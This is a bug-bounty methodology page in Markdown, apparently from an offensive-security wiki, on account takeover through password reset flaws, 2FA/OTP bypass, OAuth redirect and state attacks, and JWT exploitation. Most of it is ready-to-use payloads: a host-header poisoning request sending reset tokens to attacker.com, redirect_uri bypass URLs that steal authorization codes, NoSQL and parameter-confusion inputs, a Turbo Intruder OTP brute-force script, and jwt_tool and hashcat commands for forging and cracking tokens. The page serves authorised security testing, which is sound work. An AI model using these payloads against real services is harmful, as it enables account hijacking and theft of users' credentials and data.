

# Authentication, ATO, OAuth 2.0 & JWT Exploitation

!!! tip "Why This Section Matters"
    Authentication bugs consistently pay the highest bounties. A single ATO in a SaaS platform can compromise every tenant on it. This page mirrors the **HowToHunt Account Takeover Methodology** with modern 2026 bypass variations.

---

## 1. Account Takeover (ATO) Attack Surface Map



---

## 2. Password Reset Functionality Flaws

The 6 highest-yield password reset attacks, derived from **HowToHunt's Password Reset MindMap**:

=== "Host Header Poisoning"

    ```http
    POST /api/v1/auth/forgot-password HTTP/1.1
    Host: <DOMAIN>
    X-Forwarded-Host: attacker.com
    X-Forwarded-For: 127.0.0.1
    X-Real-IP: 127.0.0.1
    Content-Type: application/json

    {"email":"<USER>@<DOMAIN>"}
    ```

    If the reset link becomes `https://attacker.com/reset?token=...`, you've stolen the token and achieved full ATO. Test all of: `X-Forwarded-Host`, `X-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, and multiple `Host:` headers.

=== "Token & Parameter Manipulation"

    ```text
    # 1. Identifier Injection — send multiple email/ID params
    POST /forgot {"email":["victim@<DOMAIN>","attacker@evil.com"]}
    # 2. IDOR on reset endpoint — swap victim's ID for your own
    POST /api/reset-password {"user_id":1337,"token":"<YOUR_TOKEN>","new_password":"pwned"}
    # 3. Token leakage via Referer (3rd-party analytics/ads on reset page)
    Referer: https://evil.com/?token=<LEAKED_RESET_TOKEN>
    # 4. Weak token: short numeric / timestamp-based / MD5(email)
    # 5. No token invalidation after use -> replay attack
    # 6. Reset link does not expire / expires in days
    ```

=== "Pre-Account Takeover (Unverified Email)"

    ```text
    Step 1: Register account with victim@company.com but DO NOT verify email.
    Step 2: Victim later tries to sign up with same email -> app says "email already exists"
                OR victim uses "Sign in with Google/SSO" (federated login).
    Step 3: Many apps merge the SSO identity into the EXISTING (your) unverified account.
    Result: You now control an account with the victim's corporate email identity. P1 ATO.
    ```

---

## 3. 2FA / MFA & OTP Bypass Compendium

| # | Bypass Technique | How to Test |
| :--- | :--- | :--- |
| 1 | **Response Manipulation** | Intercept `POST /verify-otp`; change `{"success":false}` to `true` or HTTP `401` to `200` in the response. |
| 2 | **Brute Force (No Rate Limit)** | Send the OTP request 10,000+ times via Intruder/Turbo Intruder; check for missing lockout. |
| 3 | **Missing OTP Verification on Protected Routes** | After step 1 (password), directly request `/api/v1/dashboard` or `/api/v1/user/settings` — is the 2FA prompt only client-side? |
| 4 | **OTP Reuse / No Expiry** | Reuse a previously valid OTP after a fresh login attempt; check if OTP remains valid for hours. |
| 5 | **OTP Leak in Response / Headers** | Inspect JSON response, `X-OTP`, `Set-Cookie: otp=`, or debug headers. |
| 6 | **Backup Codes Brute Force** | Backup/recovery codes often have weaker rate limiting than the primary OTP. |
| 7 | **2FA Disable IDOR** | `POST /api/2fa/disable {"user_id":VICTIM_ID}` with your session. |
| 8 | **Array / Parameter Confusion** | `{"otp":[null]}`, `{"otp":{"$ne":null}}` (NoSQL), `{"otp":true}`, or send `otp[]=` empty array. |
| 9 | **Race Condition on 2FA Setup** | Fire many parallel requests to enable/confirm 2FA to get an inconsistent state. |
| 10 | **CSRF on 2FA Disable** | If disabling 2FA is a `GET` request or lacks a CSRF token → chain it. |

```bash
# Turbo Intruder snippet for a 6-digit OTP brute force with connection pooling
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint='https://<DOMAIN>/api/verify-otp',
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=True)
    for otp in range(0, 1000000):
        engine.queue(target.req, str(otp).zfill(6), gate='race')
    engine.openGate('race')

def handleResponse(req, interesting):
    if '200' in req.status or 'token' in req.response:
        table.add(req)
```

---

## 4. OAuth 2.0 / OIDC Attack Patterns

Modern OAuth bugs pay extremely well. Focus on these five patterns:

=== " redirect_uri Bypass (Steal the code)"

    ```text
    # Register your own client/URL and try every bypass variant:
    https://app.<DOMAIN>/callback/../evil
    https://evil.<DOMAIN>.attacker.com/callback # Subdomain-controlled
    https://app.<DOMAIN>/callback@attacker.com # @ parsing confusion
    https://app.<DOMAIN>/callback%2f%2fattacker.com
    https://app.<DOMAIN>/callback?next=//attacker.com
    https://app.<DOMAIN>.attacker.com/callback
    https://app.<DOMAIN>/callback#attacker.com
    https://app.<DOMAIN>/callback/../../open-redirect?url=//attacker.com
    # Also try OPEN REDIRECT CHAINING -> if any open redirect exists on a whitelisted
    # host, you can point redirect_uri at it and steal ?code=
    ```

=== " state Parameter & CSRF"

    ```text
    1. Remove the "state" parameter entirely -> does the flow still complete?
    2. Reuse YOUR OWN "state" value across multiple sessions (state fixation).
    3. If state is derived from a cookie that is NOT HttpOnly/Secure -> steal & fixate.
    4. Missing state => attacker crafts authorization URL for victim:
       GET /oauth/authorize?client_id=APP&redirect_uri=CALLBACK&response_type=code
       -> victim's code gets bound to the ATTACKER's session => Account Hijack.
    ```

=== " Authorization Code & Token Leaks"

    ```text
    - Code in Referer header (implicit flow / legacy SPA apps often leak via , analytics)
    - Token in URL fragment -> accessible by JS on the page; check for DOM XSS + prototype pollution
    - Implicit flow ("response_type=token") sends token in fragment -> visible to JS
    - Mixed-mode: response_type="code token" or "code id_token"
    - PKCE downgrade: remove code_challenge / set code_challenge_method=plain
    - Token leakage via "postMessage" listener that does not validate event.origin
    ```

=== " Pre-Account Takeover via Unverified OAuth Email"

    ```text
    1. Attacker creates OAuth account with victim@corp.com (IdP allows unverified email or
       attacker controls a workspace that can assign arbitrary emails e.g. Slack/GitHub org email).
    2. App automatically links by email without requiring email_verified: true.
    3. Victim then logs in with their legitimate SSO -> lands in the attacker's account, OR
       attacker retains access via the linked identity.
    ```

=== " Other OAuth Flaws to Test"

    ```text
    - Missing "iss" validation on ID tokens (accept a token from a different IdP you control)
    - "aud" confusion / client_id confusion
    - Azure AD: "Any tenant" apps, B2B guest invite abuse, PRT cookie theft (see Azure section)
    - OIDC: "nonce" missing or replayable -> ID token replay to authenticate as victim
    - OAuth Dynamic Client Registration open -> register client with attacker redirect_uri
    ```

---

## 5. JSON Web Token (JWT) Exploitation

```bash
# Basic JWT structure inspection
jwt_tool <JWT_TOKEN> -V -d /usr/share/wordlists/jwt-secrets.txt
# Automated attack sweep: alg=none, key confusion, JWKS, kid injection, JWK injection
jwt_tool <JWT_TOKEN> -M pb
jwt_tool <JWT_TOKEN> -X a -pc # alg=none
jwt_tool <JWT_TOKEN> -X k -pk pub.pem # RS256 -> HS256 confusion (sign with public key)
jwt_tool <JWT_TOKEN> -T # tamper claims interactively (role, sub, admin, id)
# Crack HS256 secret offline using hashcat
hashcat -m 16500 jwt_hash.txt /usr/share/wordlists/rockyou.txt
```

| JWT Attack | Description |
| :--- | :--- |
| **`alg: none`** | Change header algorithm to `none` and strip the signature. Some libraries accept `None`, `none`, `NONE`. |
| **RS256 → HS256 Key Confusion** | Server uses RS256 but accepts HS256; sign the token with the public key as HMAC secret. |
| **Weak HMAC Secret** | Crack with hashcat module `16500` against `rockyou.txt` or `jwt-secrets.txt`. |
| **`kid` Header Injection** | `kid=../../../../dev/null` + sign with empty string; or SQLi/LFI in `kid`; or point `kid` to a file you control. |
| **`jku` / `x5u` Injection** | Point to your own hosted JWKS file containing your public key. |
| **Embedded `jwk`** | Some libs trust the `jwk` in the token header — self-sign with your own key. |
| **`sub` / `role` Claim Tampering** | Try `role:admin`, `sub:1`, `user_id:<VICTIM>`, `is_verified:true`, `email_verified:true`. |